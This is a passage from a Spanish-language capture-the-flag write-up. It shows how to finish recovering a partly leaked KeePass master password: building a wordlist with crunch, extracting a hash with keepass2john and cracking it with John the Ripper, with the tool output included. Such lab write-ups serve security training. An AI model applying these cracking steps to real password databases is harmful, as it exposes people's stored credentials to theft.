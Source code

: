 ```batch
4.:	*, 
5.:	*, 
6.:	*, 
7.:	*, 
8.:	*, 
9.:	*, 
10.:	*, 
11.:	*, 
12.:	*, 
13.:	*, 
14.:	*, 
Combined: ●{a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f}********
```
Funciono bien, pero parece que falto por obtener el primer carácter de la contraseña.

Tan solo nos falta obtener ese carácter.

Gracias a nuestra biblia **HackTricks**, nos enseña a aplicar fuerza bruta a **KeePass**:
* <a href="https://book.hacktricks.wiki/en/generic-hacking/brute-force.html?highlight=keepass#keepass" target="_blank">HackTricks: Brute Force - CheatSheet - KeePass</a>

Ahora, debemos crear un diccionario que tenga variaciones de la contraseña incompleta, para poder usar **JohnTheRipper** y poder encontrar la contraseña completa.

Primero, vamos a crear el diccionario y esto lo haremos con la herramienta **crunch**.

Debemos indicarle un mínimo y un máximo de caracteres (la contraseña es de 14 caracteres), luego los caracteres que serán usados (podemos usar minúsculas, mayúsculas y números), le podemos indicar una palabra que puede ser usada para crear las variaciones en conjunto con los caracteres seleccionados (usamos la contraseña incompleta) y le decimos que guarde los resultados en un archivo de texto:
```batch
crunch 14 14 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -t @aritrini12345 -o diccionario.txt
Crunch will now generate the following amount of data: 930 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 62 
crunch: 100% completed generating output
```
Ya tenemos nuestro diccionario.

Con la herramienta **keepass2john**, podemos generar un hash del **archivo kdbx** para poder usarlo con **JohnTheRipper**:
```bash
keepass2john Database.kdbx > hashKeeP
```

Por último, usamos **JohnTheRipper** con nuestro diccionario y veamos si obtenemos la contraseña completa:
```bash
john -w:../diccionario.txt hashKeeP
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********   (Database)     
1g 0:00:00:00 DONE (2025-01-31 01:31) 3.846g/s 153.8p/s 153.8c/s 153.8C/s uaritrini12345..Naritrini12345
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Súper, ya tenemos la contraseña.
